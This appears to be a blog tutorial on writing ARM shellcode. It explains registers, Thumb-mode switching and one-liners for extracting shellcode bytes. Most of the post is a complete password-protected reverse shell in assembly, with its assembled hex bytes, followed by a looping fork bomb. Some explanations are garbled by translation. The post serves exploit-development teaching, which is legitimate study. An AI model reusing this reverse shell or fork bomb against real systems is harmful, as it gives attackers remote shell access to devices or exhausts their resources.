 ```yaml
---
title: Writing ARM Shellcodes
date: 2022-9-26
layout: single
classes: wide
tags:
  - Assembly
  - Pwn
  - Shellcode
--- 
```


This first post will teach you how to write shellcodes in ARM.

## Shellcode Writing Basics

**Registers:**
- `R0-R10` : General Purpose Register
- `R11`    : Frame Pointer (FP)
- `R12`    : Intra Procedural Call (IPC)
- `R13`    : Stack Pointer (SP)
- `R14`    : Link Register (LR)
- `R15`    : Program Counter/Instruction Pointer (PC)


ARM has 2 modes, the Thumb mode has instructions in 16 bits and the ARM mode has instructions in 32 bits.

to switch in Thumb mode here is what you have to do : 
```asm
 add r0, pc, #1
 bx  r0
// le code qui suivera sera en thumb mode
```
in a first time we add 1 to PC (Program Counter) then we put the result in r0. For the 2nd instruction we use BX (Branch & Exchange) in r0. If LSB=1 (low weight bit) then we are in thumb mode.

![](https://i.imgur.com/z7tNUe5.png)




several techniques exist to parse a shellcode:

1 - usage of awk
```bash
for i in $(objdump -d hello | grep "^ "|awk -F"[\t]" '{print $2}'); do echo -n ${i:6:2}${i:4:2}${i:2:2}${i:0:2};done| sed 's/.\{2\}/\\x&/g'
```
2 - usage of regex + **addition of double quotes**
```bash
objdump -d hello |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```
3 - usage of **hexdump** and **objcopy**
```bash
objcopy -O binary fichier.bin fichier.dump && hexdump -v -e '"\\""x" 1/1 "%02x" ""' fichier.dump
```

![](https://i.imgur.com/VUjjIrl.png)



### Reverse Shell in ARM

![](https://i.imgur.com/xbUxAgq.png)

here is how to make a structure in ARM : 

```asm
adr r1, _sockaddr @ sockaddr struct 
...

_sockaddr: 
 	.hword 2 @ sin_family 
 	.hword 0x5c11 // sin_port 4444
 	.word 0x100007f @ sin_addr 127.0.0.1
 	.byte 0,0,0,0,0,0,0,0 @ sin_zero 
```
then we use dup2() to redirect the standard outputs.

### Password-Protected Reverse Shell

```asm
.section .text
.global _start
_start:

.arm
    add   r3, pc, #1
    bx    r3

.thumb

    mov   r0, #2
    mov   r1, #1
    eor   r2, r2
    mov   r7, #200
    add   r7, #81
    svc   #1
mov   r10, r0 
    adr   r1, target
    strb  r2, [r1, #1]
    strb  r2, [r1, #5]
    strb  r2, [r1, #6] 
    mov   r2, #16
    add   r7, #2  
    svc   #1
    push  {r1}
    mov   r1, sp
    mov   r2, #4
    mov   r7, #3
    .read_pass:
        mov   r0, r10
        svc   #1
    .check_pass:
        ldr   r3, pass
        ldr   r4, [r1]
        eor   r3, r3, r4
    bne .read_pass
    mov   r1, #2 
    mov   r7, #63    
    .loop_stdio:
        mov   r0, r10
        svc   #1
        sub   r1,#1
    bpl .loop_stdio
    adr   r0, command
    eor   r2, r2
    eor   r1, r1
    strb  r2, [r0, #7]
    mov   r7, #11 
    svc   #1

target:
    .ascii "\x02\xff"  
    .ascii "\x11\x5c"
    
    .byte 127,255,255,1 
    
command: .ascii "/bin/sh?"
pass: .ascii "RistBS=aker"
```

if you didn't know, the registers from r0 to r10 are general purpose registers, the register r7 is used to identify the NR of the syscall.

This ascii character `x02\xff\x11\x5c` shows that we are using the TCP proto in IPv4 on port 4444.

**`.read_pass` & `.check_pass` Function:**

for the read function we will just use the C Function: `read(sourcefd, destbuffer, amount)`

- `eor r3, r3, r4` = *r3=r3^r4*
- `bne .read_pass` (Department if Not Equal) equivalent to JNE in x86. This instruction will jump to reading the mdp if it is not equal to the first args passed in r1. (address of r1 retrieved and stored in r4)


```bash
as ARM-reverse-shell.s -o ARM-reverse-shell.o && ld -N ARM-reverse-shell.o -o ARM-reverse-shell && objcopy -O binary ARM-reverse-shell ARM-reverse-shell.dump && hexdump -v -e '"\\""x" 1/1 "%02x" ""' ARM-reverse-shell.dump

\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x02\x20\x01\x21\x52\x40\xc8\x27\x51\x37\x01\xdf\x82\x46\x0e\xa1\x4a
\x70\x4a\x71\x8a\x71\x10\x22\x02\x37\x01\xdf\x02\xb4\x69\x46\x04\x22\x03\x27\x50\x46\x01\xdf\x0b\x4b\x0c\x68\x63\x40\xf9\xd1\x02\x21\x3f\x27\x50\x46\x01\xdf\x01\x39\xfb\xd5\x04\xa0\x52\x40\x49\x40\xc2
\x71\x0b\x27\x01\xdf\x02\xff\x11\x5c\x7f\xff\xff\x01\x2f\x62\x69\x6e\x2f\x73\x68\x3f\x53\x35\x39\x21
```

> Source : https://github.com/alanvivona/pwnshop/blob/master/src/0x15-ARM-shellcode/ARM-reverse-shell-with-auth.s


### Final test : ForkBomb


| NR | Syscall Name | %r7      |  arg0 (%r0)       |
| ---- |:----------------------- | --- | ----
| 2      | fork | 0x02 |    - |

```asm
.text
.global .start

.start:
	.code 32   
	add r3, pc, #1	
	bx r3

	.code 16
	.loop:
		eor r7, r7 
		add r7, #2
		svc #1
		mov r8, r8
		bl .loop
```

![](https://i.imgur.com/GcsZD2P.png)


### useful ressources : 
- https://www.youtube.com/watch?v=9tx293lbGuc
- https://www.youtube.com/watch?v=c_jUELOScLc

